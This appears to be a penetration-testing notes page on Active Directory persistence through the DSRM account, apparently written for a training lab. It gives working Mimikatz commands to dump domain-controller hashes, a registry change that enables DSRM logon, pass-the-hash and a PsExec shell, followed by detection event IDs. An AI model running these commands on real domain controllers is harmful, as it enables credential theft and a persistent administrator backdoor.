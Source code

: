 ```yaml
---
title: "DSRM"
description: "Persistence using Directory Services Restore Mode (DSRM)."
lead: "Using DSRM for persistence in Active Directory with Mimikatz."
date: 2021-11-06T11:53:35+01:00
lastmod: 2021-11-06T11:53:35+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "domain_persistence"
weight: 40
toc: true
---
```


## General

- DSRM is Directory Services Restore Mode
- There is a local administrator on every DC called "Administrator" whose password is the DSRM password
- DSRM password (SafeModePassword) is required when a server is promoted to a DC and it is rarely changed
- After altering the configuration on the DC, it is possible to pass the NTLM hash of this user to access the DC

## Exploitation

```powershell
# Dump DSRM password (needs DA privs)
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName dcorp-dc

# Compare the Administrator hash with the Administrator hash of below command
# The first on is the DSRM local Administrator
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName dcorp-dc

# Need to change Logon Behavior for DSRM account before we can pass the hash to login
Enter-PSSession -ComputerName dcorp-dc
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD

# Pass the hash to login
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'

# Check if we can access the DC
ls \\dcorp-dc\c$

# Get shell
.\PsExec.exe -accepteula \\dcorp-dc cmd.exe
```

## Detection

- Event IDs:
  - 4657: Audit creation/change of HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ DsrmAdminLogonBehavior
  - 4624: Account Logon
  - 4634: Account Logoff
  - 4672: Admin Logon
